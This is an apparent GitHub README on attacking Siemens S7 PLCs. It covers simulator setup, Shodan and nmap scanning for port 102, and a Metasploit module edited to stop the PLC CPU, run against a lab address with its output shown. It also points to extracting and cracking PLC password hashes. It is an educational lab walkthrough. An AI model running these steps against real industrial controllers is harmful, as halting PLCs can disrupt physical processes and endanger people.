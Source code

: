 ## S7comm

![S7Comm Layers](docs/img/s7comm_layer.png)

Wireshark wiki S7comm: https://wiki.wireshark.org/S7comm

## Siemens S7 PLC simulator

If you wanna play around, you can install an S7 simulator written on python:

1. Download *snap7-full-x.x.x.zip*: https://osdn.net/projects/sfnet_snap7/downloads/1.4.0/snap7-full-1.4.0.zip/

2. Unzip with name snap7-full in ~/

3. Execute the following commands

```
$ cd ~/snap7-full
$ sudo apt-get install python-pip
$ sudo -H pip install python-snap7
$ cd build/unix
$ make -f x86_64_linux.mk
$ cd ../bin/x86_64-linux/
$ sudo cp libsnap7.so /usr/lib
$ sudo ldconfig
$ sudo python
>>> import snap7
>>> s7server = snap7.server.Server()
>>> s7server.create()
>>> s7server.start()
>>> s7server.get_status()
('SrvRunning', 'S7CpuStatusRun', 0)
>>>
```

Now the simulator is ready!

PS: I use Ubuntu 16 on a VM.

## Scan

Shodan dork: *port:102*

Scan and identify: *plcscan.py*:

```
#Example usage

plcscan.py 192.168.0.1

plcscan.py --timeout 2 192.168.0.1:102 10.0.0.0/24

plcscan.py --hosts-list hosts.txt
```

Using nMap wit the script **s7-info.nse**: https://nmap.org/nsedoc/scripts/s7-info.html

```
nmap --script s7-info.nse -p 102 <host/s>
```

## Exploits

There should be also some metasploit modules:

```
$ searchsploit Siemens Simatic S7
```
Add exploit *19831.rb* to metasploit:

Metasploit comes with a ton of exploits already included; however, this Siemens exploit needs to be added. As the exploit was written with the usage of Metasploit in mind, this is a simple task. To add the module, run the following commands on the Kali Linux VM:

To adjust for using a newer Metasploit framework, we need to change the same code in the 19831.rb file. In the file take a look on the line 39:

```OptInt.new('MODE', [false, 'Set true to put the CPU back into RUN mode.',false]),```

Change the preceding to this:

```OptInt.new('MODE', [false, 'Mode 1 to Stop CPU. Set Mode to 2 to put the CPU back into RUN mode.',1]),```

Now copy module to msf user directory:

```
$ cd ~/.msf4/modules/
~/.msf4/modules $ mkdir -p auxiliary/hardware/scada
~/.msf4/modules $ cd auxiliary/hardware/scada
~/.msf4/modules/auxiliary/hardware/scada $ cp /usr/share/exploitdb/platforms/hardware/remote/19831.rb 19831.rb
~/.msf4/modules/auxiliary/hardware/scada $ service postgresql start
~/.msf4/modules/auxiliary/hardware/scada $ msfconsole
```

Now go with metasploit:

```
msf > reload_all
msf > search siemens
msf > use auxiliary/hardware/scada/19831
msf auxiliary(19831) > show options
msf auxiliary(19831) > set RHOSTS 172.16.252.134
RHOSTS => 172.16.252.134
msf auxiliary(19831) > exploit
[+] 172.16.252.134 PLC is running, iso-tsap port is open.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
On newer Siemens devices, they added a password for certain actions! Use *s7_password_hashes_extractor.py* to extract hash and crack it online!

## Manual exploitation



### Conclusions

Resources and bibliography:

  * **Industrial Cybersecurity - Efficiently secure critical infrastructure systems** by *Pascal Ackerman*
  * **HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions** by *C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*
  * **Cybersecurity for Industrial Control Systems: SCADA, DCS, PLC, HMI, and SIS** by *T. Macaulay, B. L. Singer*
  * https://media.blackhat.com/bh-us-11/Beresford/BH_US11_Beresford_S7_PLCs_WP.pdf
  * Protocol description: http://snap7.sourceforge.net/siemens_comm.html